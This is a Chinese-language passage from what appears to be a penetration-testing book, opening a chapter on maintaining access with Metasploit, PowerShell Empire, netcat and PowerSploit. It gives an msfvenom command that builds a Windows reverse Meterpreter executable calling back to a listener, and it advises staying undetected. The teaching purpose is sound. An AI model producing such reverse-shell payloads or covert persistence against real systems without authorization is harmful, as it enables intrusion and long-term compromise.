 # 第十七章：保持访问

我们已经在这些章节中一起走过了很长的路。现在我们来到这里，提出剩下的问题：在你强行进入并证明客户的防御存在漏洞之后——*如何保持我的访问权限？* 这是一个有趣的问题，因为它常常被忽视，尽管它非常重要。当很多人谈论黑客攻击时，他们想到的是如何突破防线的兴奋感。黑客攻击是解决问题的过程，有时我们容易忘记，保持访问权限本身也是一个问题。特别是在渗透测试的背景下，由于我们通常有紧迫的时间表，持久化往往会被视为理所当然。有时，看似有一个竞赛要赶紧获得域管理员或 root 权限，然后就停下来撰写报告。遗憾的是，评估往往就是这样安排的，尤其是在当今这个**高级持续性威胁**（**APT**）的时代。

记住你在评估中的一个广泛目标：从低调到相对显眼地升级，并注意你被捕获的时机。获得域管理员权限时没人注意到，和当当局破门而入时获得域管理员权限，结果是完全不同的。这种心态应延续到持久化阶段。

本章我们将涵盖以下内容：

+   使用 Metasploit 和 PowerShell Empire 实现持久化

+   快速简陋的持久化 netcat 隧道

+   使用 PowerSploit 实现持久化访问

# 技术要求

本章的前提条件如下：

+   Kali Linux

+   一个 Windows 10 或 7 虚拟机

# 使用 Metasploit 和 PowerShell Empire 实现持久化

我们在本书的多个章节中讨论了生成有效载荷。我们用`msfvenom`生成了不同格式和自定义选项的有效载荷，也探讨了如何使用 Shellter 对合法可执行文件进行隐蔽修补，进行高级攻击。现在，我们通过利用 Metasploit 的持久化模块，来完成这个讨论。

## 为 Metasploit 持久化模块创建有效载荷

为了演示，我们将生成一个快速简陋的反向 Meterpreter 可执行文件。然而，请注意，当我们配置持久化模块时，可以使用任何我们想要的可执行文件。

我们将通过以下命令保持简单明了：

msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.154.133 LPORT=10000 -f exe > persist.exe

当然，请替换为你自己的 IP 地址和本地端口：

![图 17.1 – 使用 msfvenom 生成有效载荷](img/Figure_17.01_B17616.jpg)

图 17.1 – 使用 msfvenom 生成有效载荷
